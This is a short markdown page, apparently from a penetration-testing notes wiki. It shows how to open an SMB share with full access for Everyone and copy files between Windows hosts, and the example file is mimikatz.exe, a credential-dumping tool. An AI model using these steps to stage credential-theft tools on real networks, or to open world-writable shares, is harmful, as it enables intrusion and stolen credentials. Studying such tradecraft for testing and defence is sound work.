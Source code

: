 # SMB Share

<details>

<summary>Powershell Method</summary>

On Sender:

```
Set-SmbServerConfiguration -EnableSMB2Protocol $true -Force
net share PublicShare=C:\temp /GRANT:Everyone,FULL
```

On Receiver:

```
copy \\appsrv01\PublicShare\mimikatz.exe .
```

</details>

<details>

<summary>GUI Method</summary>

* Right click --> New --> Folder --> name it
  * ![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)\

* Right click folder --> Properties --> Sharing --> Advanced Sharing --> Share this folder --> Permissions
  *

      <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


  *

      <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

      <figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


  * Set SMB Share permissions (Full Control --> allow for all)
    *

        <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


    *

        <figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>
